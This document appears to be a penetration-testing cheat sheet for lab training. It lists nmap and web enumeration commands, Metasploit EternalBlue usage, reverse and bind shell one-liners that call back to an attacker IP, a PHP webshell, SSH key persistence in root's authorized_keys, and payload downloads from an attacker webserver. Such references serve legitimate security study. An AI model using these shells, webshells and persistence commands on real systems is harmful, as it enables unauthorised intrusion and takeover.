   

**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` |Run a directory scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website
`curl -IL https://www.inlanefreight.com` | Grab website banner
`whatweb 10.10.10.121` | List details about the webserver/certificates
`curl 10.10.10.121/robots.txt` | List potential directories in  `robots.txt`
`ctrl+U` | View page source (in Firefox)
**Public Exploits** |
`searchsploit openssh 7.2` | Search for public exploits for a web application
`msfconsole` | MSF: Start the Metasploit Framework
`search exploit eternalblue` | MSF: Search for public exploits in MSF
`use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module
`show options` | MSF: Show required options for an MSF module
`set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option
`check` | MSF: Test if the target server is vulnerable
`exploit` | MSF: Run the exploit on the target server is vulnerable
**Using Shells** | 
`nc -lvnp 1234` | Start a  `nc`  listener on a local port
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`| Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server
`nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server
`python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1)
`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice| Upgrade shell TTY (2)
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` |Create a webshell php file
`curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell
**Privilege Escalation**

`./linpeas.sh`

Run  `linpeas`  script to enumerate remote server

`sudo -l`

List available  `sudo`  privileges

`sudo -u user /bin/echo Hello World!`

Run a command with  `sudo`

`sudo su -`

Switch to root user (if we have access to  `sudo su`)

`sudo su user -`

Switch to a user (if we have access to  `sudo su`)

`ssh-keygen -f key`

Create a new SSH key

`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

Add the generated public key to the user

`ssh  root@10.10.10.10  -i key`

SSH to the server with the generated private key

**Transferring Files**

`python3 -m http.server 8000`

Start a local webserver

`wget http://10.10.14.1:8000/linpeas.sh`

Download a file on the remote server from our local machine

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Download a file on the remote server from our local machine

`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Transfer a file to the remote server with  `scp`  (requires SSH access)

`base64 shell -w 0`

Convert a file to  `base64`

`echo f0VMR...SNIO...InmDwU | base64 -d > shell`

Convert a file from  `base64`  back to its orig

`md5sum shell`

Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjI1OTE0OTM3XX0=
-->
